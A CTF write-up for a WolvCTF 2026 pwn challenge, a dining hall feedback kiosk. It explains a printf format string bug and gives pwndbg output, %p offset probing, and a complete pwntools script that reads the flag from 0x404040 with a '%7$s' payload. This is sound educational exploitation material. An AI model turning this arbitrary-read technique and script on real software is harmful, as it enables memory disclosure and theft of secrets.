

## Overview
```
Arch:       amd64
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x400000)
Stripped:   No
```

---
## Vulnerability
The vulnerability present in this challenge was a Format String bug. It calls `printf` with no format specifier and passes the buffer directly, allowing us to provide our own format specifiers as much as we would like.



---
## Exploit Development
The program reads a flag into a global buffer in `.bss`. We cannot simply examine the stack in a debugger and find the flag buffer offset relative to our input. The nice thing about format string bugs is that it provides an arbitrary read primitive, which we will go deeper into later in this writeup.

First, we have to find the address that our flag is being stored in with a debugger. I made a `flag.txt` file for the program to read from with the contents of `AAAAAAAA`
```
pwndbg> search -t bytes AAAAAAAA
Searching for byte: b'AAAAAAAA'
chal            0x404040 'AAAAAAAA\n'
[heap]          0x25f9a480 'AAAAAAAA\n'
libc.so.6       0x73174d5d7780 0x4141414141414141 ('AAAAAAAA')
libc.so.6       0x73174d5d7788 0x4141414141414141 ('AAAAAAAA')
[ ... SNIP ... ]
```

Looking at this output, the address `0x404040` is most likely ours, because it is in the challenge binary. It isn't on the heap because the disassembly shows it did not store it on the heap, and our flag would not be stored in libc.

Now we have to find the offset of our input relative to the junk contents that get outputted first (register contents and random data):
```
=== Dining Hall Feedback Kiosk ===
Leave your comment: 
AAAAAAAA %p %p %p %p %p %p %p %p %p %p %p
Thanks for your comment: AAAAAAAA 0x7fff28a5b380 (nil) (nil) 0x19 0x7 0x4141414141414141 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0xa70
```
- Our input starts at offset 6, but the first 8 bytes hold our %7$s payload, so the target address lands one slot further at offset 7 which is what %7$s dereferences in the exploit.

Finally the important part, actually reading from the flag address. Earlier I mentioned how format string bugs provide an arbitrary read primitive, and I will show you how. If we provide an arbitrary address into our input initially we can dereference it with a format specifier.

We can craft an input that provides `0x404040`, and since our flag is a string we can provide the offset then dereference and read from that address with `%s`.

---
## Final Pwn

```python
from pwn import *

BINARY = "./chal"
elf = context.binary = ELF(BINARY, checksec=False)

GDBSCRIPT="""
b *main
c
b *0x401259
"""

def start():
    if args.GDB:
        return gdb.debug(BINARY, gdbscript=GDBSCRIPT)
    elif args.REMOTE:
        return remote("comment-card.wolvctf-2026.kctf.cloud", 1337)
    return process([BINARY])

io = start()

payload  = b"%7$s"
payload  = payload.ljust(8, b"A") # padding so our address isn't split up in pieces
payload += p64(0x404040)

io.sendafter(b"Leave your comment:", payload)
io.interactive()
```
```
Thanks for your comment: wctf{c0mm3nt_hqwx3i5r9jhjik7d}
```